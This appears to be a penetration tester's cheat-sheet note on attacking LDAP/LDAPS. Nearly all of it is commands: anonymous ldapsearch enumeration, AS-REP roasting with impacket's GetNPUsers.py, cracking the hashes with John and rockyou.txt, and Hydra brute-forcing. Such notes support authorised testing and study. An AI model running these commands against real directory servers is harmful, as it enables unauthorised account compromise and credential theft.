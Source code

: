 ```yaml
---
title: (389/636) LDAP/S
updated: 2023-11-29 02:27:46Z
created: 2023-11-29 02:27:08Z
latitude: -35.28093680
longitude: 149.13000920
altitude: 0.0000
---
```


## LDAP/S
1. Enumerate with anonymous credentials:
`ldapsearch -L -x -H ldap://<targetIP> -D '' -w '' -b "DC=domain,DC=com" > ldapresult.ldif`
`cat ldapresult.ldif| grep "Service Accounts"`
`cat ldapresult.ldif| grep sAMAccountName`
2. Run GetNPUsers.py to check for accounts that don't require Kerberos pre-authentication
`python3 /opt/impacket/GetNPUsers.py domain.com/ -usersfile users.txt -format hashcat -outputfile hashes.asreproast`
3. Crack passwords with John
`john --wordlist=/usr/share/wordlists/rockyou.txt hashes.asreproast`
4. Crack LDAP with Hydra
`hydra -l {Username} -P {Big_Passwordlist} {IP} ldap2 -V -f`